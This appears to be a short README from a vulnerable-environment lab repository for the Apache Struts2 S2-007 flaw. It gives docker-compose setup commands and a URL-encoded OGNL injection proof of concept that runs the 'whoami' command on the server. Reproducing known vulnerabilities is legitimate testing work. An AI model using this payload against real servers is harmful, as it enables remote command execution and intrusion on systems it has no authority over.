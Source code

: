 ### s2-007 vuldocker

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30080
```

```
poc:
%27%20%2b%20%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%20%2b%20%27

```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/struts2/s2-007/1.png)

